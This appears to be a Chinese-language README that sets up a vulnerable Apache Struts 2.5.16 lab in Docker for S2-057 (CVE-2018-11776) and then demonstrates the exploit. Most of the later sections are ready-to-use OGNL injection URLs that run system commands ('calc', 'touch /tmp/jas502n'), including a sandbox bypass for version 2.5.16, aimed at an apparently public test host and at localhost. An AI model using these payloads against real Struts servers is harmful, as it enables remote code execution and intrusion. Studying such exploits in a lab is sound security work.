# St2-057 在线靶机环境，Enjoy！


# 0x01 搭建环境docker

https://github.com/vulhub/vulhub/tree/master/struts2/s2-048

```
docker-compose up -d
```

# 0x02 搭建st2-057漏洞环境

```
docker exec -i -t 88fd8d560155 /bin/bash
```
后台启动进入docker


根据公告
https://struts.apache.org/releases.html

```
Release	Release Date	Vulnerability	Version Notes
Struts 2.5.16	16 March 2018	S2-057	Version notes
Struts 2.5.14.1	30 November 2017	Version notes
Struts 2.5.14	23 November 2017	S2-055, S2-054	Version notes
```

Struts 2.5.16存在s2-057漏洞，然后去下载这个版本

https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip/

```

apt-get update -y
mkdir /usr/local/tomcat/webapps/test
wget https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip
apt-get install unzip -y
cp struts2-showcase.war /usr/local/tomcat/webapps/

```


# 0x03 修改配置文件

先查找文件struts-actionchaining.xml，发现有2处需要修改
```
root@88fd8d560155:/usr/local/tomcat/webapps/test# locate struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/classes/struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/src/java/struts-actionchaining.xml
/usr/local/tomcat/webapps/test/struts-2.5.16/src/apps/showcase/src/main/resources/struts-actionchaining.xml
root@88fd8d560155:/usr/local/tomcat/webapps/test# 

```
配置文件修改-参考链接：
https://lgtm.com/blog/apache_struts_CVE-2018-11776

改为如下所示：

```
<struts>
    <package name="actionchaining" extends="struts-default">
        <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
           <result type="redirectAction">
             <param name = "actionName">register2</param>
           </result>
        </action>
    </package>
</struts>
```


然后去bin目录，kill掉进程,因为修改了配置文件，所以需要重启服务
```
root@88fd8d560155:/usr/local/tomcat/bin# cd /usr/local/tomcat/bin/
root@88fd8d560155:/usr/local/tomcat/bin# ls
bootstrap.jar	    catalina.sh			  commons-daemon.jar  daemon.sh  setclasspath.sh  startup.sh	   tool-wrapper.sh
catalina-tasks.xml  commons-daemon-native.tar.gz  configtest.sh       digest.sh  shutdown.sh	  tomcat-juli.jar  version.sh
root@88fd8d560155:/usr/local/tomcat/bin# ./shutdown.sh 

```


# 0x04 重启服务，st2-057搭建完成
```
 ✘ ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  docker-compose up -d
Starting s2-048_struts2_1 ... done
 ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  
```

# 0x05  验证st2-057
docker 靶机：http://www.canyouseeme.cc:8080/struts2-showcase/

命令执行：http://www.canyouseeme.cc:8080/struts2-showcase/${(111+111)}/actionChain1.action

${(111+111)}

得到执行结果返回在url中：http://www.canyouseeme.cc:8080/struts2-showcase/222/register2.action



#### Ps: ${(111+111)} 可以替换成以前的poc，例如S2-032

http://www.canyouseeme.cc:8080/struts2-showcase/%24%7b(%23_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime().exec(%27calc%27).getInputStream()%2c%23b%3dnew+java.io.InputStreamReader(%23a)%2c%23c%3dnew++java.io.BufferedReader(%23b)%2c%23d%3dnew+char%5b51020%5d%2c%23c.read(%23d)%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23jas502n.println(%23d+)%2c%23jas502n.close())%7d/actionChain1.action



poc-example:
```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('calc').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new  java.io.BufferedReader(#b),#d=new char[51020],#c.read(#d),#jas502n= @org.apache.struts2.ServletActionContext@getResponse().getWriter(),#jas502n.println(#d ),#jas502n.close())}
```
拆分
```
${
(
#_memberAccess["allowStaticMethodAccess"]=true,
#a=@java.lang.Runtime@getRuntime().exec('calc').getInputStream(),
#b=new java.io.InputStreamReader(#a),
#c=new java.io.BufferedReader(#b),
#d=new char[51020],
#c.read(#d),
#jas502n= @org.apache.struts2.ServletActionContext@getResponse().getWriter(),
#jas502n.println(#d),
#jas502n.close())
}
```
# 0x06 利用老版本弹计算器或命令执行

漏洞环境：struts-2.2.3.1-all.zip 

下载地址：http://archive.apache.org/dist/struts/binaries/struts-2.2.3.1-all.zip


Ps： 坑就是低版本能弹计算器，高版本不能

Windows:
```
http://127.0.0.1:8080/struts3-showcase/%24%7b(%23_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime().exec('calc').getInputStream()%2c%23b%3dnew%20java.io.InputStreamReader(%23a)%2c%23c%3dnew %20java.io.BufferedReader(%23b)%2c%23d%3dnew%20char%5b51020%5d%2c%23c.read(%23d)%2c%23sbtest%3d%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23sbtest.println(%23d)%2c%23sbtest.close())%7d/actionChain1.action


```


Linux:
```
http://www.canyouseeme.cc/struts3-showcase/%24%7B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27touch /tmp/jas502n%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D/actionChain1.action

```


# 0x07 Bypass for struts-2.5.16-all.zip

参考链接：https://otakekumi.github.io/2018/08/25/S2-057-%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA%E3%80%81%E5%8E%9F%E7%90%86%E5%88%86%E6%9E%90%E5%8F%8AEXP%E6%9E%84%E9%80%A0/

Poc for Example-Linux Docker:


```
http://www.canyouseeme.cc:44449/struts2-showcase/actionchaining/$%7B(%23ct=%23request['struts.valueStack'].context).(%23cr=%23ct['com.opensymphony.xwork2.ActionContext.container']).(%23ou=%23cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(%23ou.setExcludedClasses('java.lang.Shutdown')).(%23ou.setExcludedPackageNames('sun.reflect.')).(%23dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(%23ct.setMemberAccess(%23dm)).(%23cmd=@java.lang.Runtime@getRuntime().exec('touch /tmp/jas502n'))%7D/actionChain1.action

```



# 0x08 参考链接

```
https://otakekumi.github.io/2018/08/25/S2-057-%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA%E3%80%81%E5%8E%9F%E7%90%86%E5%88%86%E6%9E%90%E5%8F%8AEXP%E6%9E%84%E9%80%A0/
https://github.com/vulhub/vulhub/tree/master/struts2/s2-048
https://lgtm.com/blog/apache_struts_CVE-2018-11776
https://cwiki.apache.org/confluence/display/WW/S2-057
https://www.anquanke.com/post/id/157518
```
